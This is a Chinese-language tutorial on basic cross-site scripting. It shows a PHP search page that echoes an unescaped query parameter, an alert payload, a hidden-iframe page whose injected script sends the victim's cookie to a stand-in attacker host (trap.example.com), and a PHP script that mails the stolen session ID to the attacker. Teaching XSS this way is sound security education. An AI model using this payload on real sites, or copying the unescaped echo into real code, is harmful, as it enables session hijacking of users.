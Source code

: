 跨站脚本（基础篇）之攻击手段与影响
=================================================================
为了更好地理解`XSS`的攻击方法与影响，首先让我们来看一下 **`XSS`被恶意使用的`3`种方式**：
+ **窃取`Cookie`值**
+ **通过`JavaScript`攻击**
+ **篡改网页**

### XSS窃取Cookie值
假设以下`PHP`脚本是搜索页面的一部分。该页面需要用户登录后才能使用，页面上显示的是搜索关键词。
```php
<?php
    session_start();
    //登录校验（略）
?>
<body>
检索关键词：<?php echo $_GET['keyword']; ?><br>
以下略
</body>
```
先来看一下正常情况，假设关键词为“Haskell”，URL如下：http://example.jp/43/43-001.php?keyword=Haskell 。

再看一下攻击的例子：http://example.jp/43/43-001.php?keyword=<script>alert(document.cookie)</script>

上面这个攻击的例子中，**保存在`Cookie`中的会话`ID(PHPSESSID)`会被显示出来。表明外部注入的`Javascript`成功
读取到了会话`ID`**。

#### 使用被动攻击盗取他人的Cookie值
能够显示自己的会话`ID`对于攻击者来说并无太大意义，**在实际的攻击中，攻击者需要将存在隐患的网站的用户引诱至恶意网站**。
以下就是恶意网站的示例：
```php
<html><body>
商品大甩卖
<br><br>
<iframe width=320 height=100 src="http://example.jp/43/43-001.php?keyword=<script>window.location='http://trap.example.com/43/43-901.php?sid='%2Bdocument.cookie;</script>">
</frame>
```
**恶意网站的`HTML`使用了`iframe`元素来显示存在隐患的网站的页面（`/43/43-001.php`），并对其实施`XSS`攻击**。
```
实际的攻击中，攻击者会通过设置CSS将iframe部分隐藏，以不被用户看到
```
攻击流程：
+ 恶意网站的`iframe`中显示出存在隐患的网站
+ 存在隐患的网站遭受攻击后，`Cookie`值被添加到`URL`的查询字符串中，页面跳转到信息收集页面
+ 信息收集页面将接收到的`Cookie`值通过邮件发送给攻击者

以下为收集信息用的脚本，它会将收集到的会话`ID`发送给攻击者的邮箱（假定为`wasbook@example.jp`）。
```php
<?php
    mb_language('Japanese');
    $sid = $_GET['sid'];
    mb_send_mail('wasbook@example.jp','攻击成功','会话ID:' . $sid, 'From: cracked@trap.example.com');
?>
<body>攻击成功<br>
<?php echo $sid; ?>
```








